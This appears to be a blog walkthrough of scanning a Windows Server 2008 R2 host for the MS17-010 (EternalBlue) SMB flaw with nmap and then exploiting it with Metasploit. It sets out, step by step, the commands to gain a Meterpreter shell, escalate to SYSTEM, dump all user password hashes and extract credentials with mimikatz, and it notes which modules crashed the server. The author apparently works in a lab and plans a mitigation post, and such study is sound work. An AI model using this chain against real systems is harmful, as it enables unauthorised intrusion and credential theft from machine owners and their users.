


## How to use the Nmap Scripting Engine to test for SMB vulnerabilities: 

Run `nmap --script  vuln -p139,445 192.168.0.18` from your terminal. Change 192.168.0.18 to your target's IP address.

The result is `Vulnerable` to ms17-010 or CVE-2017-0143 - AKA EternalBlue which was used by the WannaCry ransomware. This exploit allows an attacker to gain full control of a server/computer hosting a share using SMBv1. 

## Exploiting the found vulnerability (ms17-010): 

Open metasploit `msfconsole`
type `search ms17-010`

As you can see, there are a few modules found. 
Let's confirm our nmap finding with the metasploit scanner: 
   
    `use scanner/smb/smb_ms17_010`
    
    `set rhosts 192.168.0.18` - change 192.168.0.18 to your target's IP address. 
    
    `run`
    

    
We have now confirmed the machine is vulnerable and that it is a Windows Server 2008 R2.  
If we go back to our list of modules, Metasploit has a few exploits available. 

I tried All and `ms17_010_psexec` was the only successful one. The other were not compatible or immediately bluescreened the server. 

To use this exploit, type: 
    
    `use windows/smb/ms17_010_psexec` hit enter
    
    `set LPORT 4445` switch to whatever you want. This is the port where you will be listening for the meterpreter connection. 
    
    `exploit`
    

We got a shell on the remote system. 

From here you can escalate privileges if necessary: 

    `getuid` - if you are not SYSTEM run `getsystem`

If successful, then you can do `run smart_hashdump` and get all users and their password hashes. Metasploit automatically saves them to /root/.msf4/loot/ where you can crack them later. 

You can also run mimikatz at this point: 

    `use kiwi`
    `creds_all`

When I tried creds_msv the server crashed. 

I will be creating another blog post on mitigating this vulnerability and a  memory digital forensics analysis using Volatility for this server.  

